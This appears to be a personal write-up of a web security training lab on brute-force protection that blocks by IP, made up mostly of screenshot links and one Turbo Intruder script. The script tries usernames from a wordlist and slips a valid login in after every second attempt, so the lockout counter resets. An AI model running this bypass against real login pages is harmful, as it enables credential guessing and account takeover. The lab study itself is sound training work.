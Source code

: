 # [Authentication] Lab: Broken brute-force protection, IP block (1)

---

![Untitled](%5BAuthentication%5D%20Lab%20Broken%20brute-force%20protection%20e6d6fa7c0d064ce5b367314d99372937/Untitled.png)

Lets visit the site without a proxy on. to map out the application and get a understanding how the application is designed. 

![Untitled](%5BAuthentication%5D%20Lab%20Broken%20brute-force%20protection%20e6d6fa7c0d064ce5b367314d99372937/Untitled%201.png)

Send to test values to the applicaiton: 

![Untitled](%5BAuthentication%5D%20Lab%20Broken%20brute-force%20protection%20e6d6fa7c0d064ce5b367314d99372937/Untitled%202.png)

![Untitled](%5BAuthentication%5D%20Lab%20Broken%20brute-force%20protection%20e6d6fa7c0d064ce5b367314d99372937/Untitled%203.png)

![Untitled](%5BAuthentication%5D%20Lab%20Broken%20brute-force%20protection%20e6d6fa7c0d064ce5b367314d99372937/Untitled%204.png)

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=1,
                           pipeline=False
                           )
    usernameValid = 'wiener'
    passwordValid = 'peter'

    veryLongPassword = 'VeRyLoNgPaSsWoRd!123456789'
    request_count = 0

    for word in open('C:\Users\micha\Desktop\Burp-Suite-Stuff\usernames_authLAB.txt.txt'):
        engine.queue(target.req, [word.rstrip(), veryLongPassword])
        request_count += 1  # Increment the counter for each request
        
        if request_count % 2 == 0:
            engine.queue(target.req, [usernameValid, passwordValid])
            request_count = 0  # Reset the counter after sending the valid login
        else:
            print('')  # Print an empty line (optional)

def handleResponse(req, interesting):
    # currently available attributes are req.status, req.wordcount, req.length, and req.response
    if req.status != 404:
        table.add(req)
```

![Untitled](%5BAuthentication%5D%20Lab%20Broken%20brute-force%20protection%20e6d6fa7c0d064ce5b367314d99372937/Untitled%205.png)

![Untitled](%5BAuthentication%5D%20Lab%20Broken%20brute-force%20protection%20e6d6fa7c0d064ce5b367314d99372937/Untitled%206.png)